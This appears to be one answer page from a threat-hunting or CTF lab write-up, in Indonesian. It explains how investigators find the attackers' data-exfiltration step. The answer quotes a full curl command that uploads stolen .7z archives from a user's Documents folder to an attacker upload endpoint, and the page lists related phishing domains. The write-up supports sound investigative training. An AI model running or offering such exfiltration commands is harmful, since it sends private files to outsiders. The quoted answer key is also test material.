

# Q30

**Pertanyaan:** What is the full command the attackers ran to do this?

**Konteks:**
Setelah compress semua data curian jadi file `.7z`, attacker exfiltrate data-nya dengan upload ke custom portal di website mereka.

**Cara penyelesaian:** Lanjutan dari hasil query timebound di [Q25](./q25.md), cari command `curl`.

⚠️ Domain `hirejob.com` — anggota baru di family domain phishing attacker ini (`hirerecruit.org/.com`, `promotionrecruit.org/.com`, `hire-recruit.org`, `hirejob.com`).

**Jawaban:** curl -F "file=@C:\Users\romclovin\Documents\*.7z" https://hirejob.com/exfil_processor/upload.php
